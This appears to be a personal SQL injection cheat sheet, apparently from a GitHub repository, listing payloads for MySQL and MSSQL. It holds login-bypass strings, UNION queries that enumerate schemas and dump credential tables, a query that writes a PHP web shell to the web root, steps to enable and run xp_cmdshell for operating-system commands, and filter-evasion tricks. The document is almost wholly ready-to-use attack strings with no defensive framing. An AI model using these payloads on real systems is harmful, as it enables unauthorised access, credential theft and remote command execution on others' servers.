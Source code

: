 # SQL injection 

#Login Bypass:   << replace ' with " if fail
' or '1'='1
' or 1=1;-- 
' or 1=1;#
') or ('x'='x
' or <column> like '%';--
' or 1=1 LIMIT 1;-- 

USERNAME:   ' or 1/*
PASSWORD:   */ =1 --

USERNAME: admin' or 'a'='a
PASSWORD '#

If the database is mysql, try to dump all login info to files?

Mysql
'*' 
'&'
'^'
'-'
' or true;-- 
' or 1;--

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'

#Enumeration
1. Confirm number of columns
order by 1 -- 100

2. union select
union select 1,2,3,4,5,6,7 to find which column will display info

3. Find databse name, user name, and version.  << must use group_concat for one liner
(select group_concat(database(),0x3a,user(),0x3a,version()))

4. Find table name
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())

5. Find columns 
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out

6. Dump data
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)

One liner to output all corresponding databse with table and columns
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()

MSSQL Enumeration: Error based
https://www.exploit-db.com/papers/12975/

Enumerate column and table name
http://www.example.com/page.asp?id=1' HAVING 1=1--
Error message: Column 'news.news_id' is invalid                 < table_name.column

http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
Error message: Column 'news.news_author' is invalid           < table_name.column2

http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
Error message: Column 'news.news_detail' is invalid             < table_name.column3

Until no error

Enumerate version, db name, users:
http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

xp_cmdshell << if running as database admin
http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
'; exec master.dbo.xp_cmdshell 'command'



On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;-- 
EXEC sp_configure 'xp_cmdshell', 1;-- 
RECONFIGURE;--  

On MSSQL 2000:
EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--


# SQL filter bypass
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

AND, OR operators
AND = &&
OR = ||

Comment operator << Mysql
--
#
/**/

Regular expression
It is common that PHPIDS will block operators such as =, ', (), 
table_name = 'users' X
table_name between 'a' and 'z' X
table_name between char(97) and char(122) X

Convert strings to HEX format.
table_name between 0x61 and 0x7a
table_name like 0x7573657273

Change case
union > UniOn
select > SeLect

Inline comments << Mysql 5.0
/*! <sql operator> */
